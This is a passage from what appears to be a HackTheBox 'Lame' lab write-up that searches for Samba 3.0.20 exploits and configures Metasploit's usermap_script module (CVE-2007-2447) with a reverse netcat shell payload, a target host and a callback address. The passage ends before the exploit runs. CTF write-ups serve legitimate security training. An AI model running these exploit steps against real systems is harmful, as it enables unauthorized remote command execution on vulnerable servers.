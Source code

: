Source: https://www.cvedetails.com/cve/CVE-2007-2447

#### 1.1.4.1 Search

```less
└──╼ $ searchsploit "Samba 3.0.20"
----------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                       |  Path
----------------------------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                               | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                     | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                                | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                        | linux_x86/dos/36741.py
----------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

#### 1.1.4.2 Configure 

```less
┌─[r4ndhex@parrot]─[~/Obsidian/hackthebox/machine/lame]
└──╼ $ sudo msfconsole

[msf](Jobs:0 Agents:0) >> search "Samba 3.0.20"

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

[msf](Jobs:0 Agents:0) >> use 0
[*] No payload configured, defaulting to cmd/unix/reverse_netcat

[msf](Jobs:0 Agents:0) exploit(multi/samba/usermap_script) >> set RHOST lame.htb
RHOST => lame.htb

[msf](Jobs:0 Agents:0) exploit(multi/samba/usermap_script) >> set LHOST 10.10.14.48
LHOST => 10.10.14.48
```
